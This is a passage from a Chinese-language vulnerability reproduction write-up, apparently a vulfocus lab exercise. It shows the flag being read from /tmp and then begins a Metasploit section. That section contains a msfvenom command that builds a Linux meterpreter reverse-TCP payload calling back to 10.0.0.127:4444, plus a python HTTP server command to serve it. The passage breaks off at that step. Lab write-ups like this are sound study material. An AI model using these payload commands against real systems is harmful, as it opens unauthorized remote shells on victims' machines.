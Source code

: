 ![](2024-02-13/5.png)

由于vulfocus的flag存放于tmp目录下，我们直接使用指令 ls /tmp 查看flag

![](2024-02-13/6.png)

至此成功取得flag，本次漏洞成功复现

##### **msf反弹shell**

若是这种查看方式过于繁琐，可以使用msf取得shell

**1.生成linux木马命令**

![](2024-02-13/7.png)

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.0.0.127 lport=4444 -f elf -o shell.elf
```

**2.使用python开启http服务**

python3 -m http.server 9999
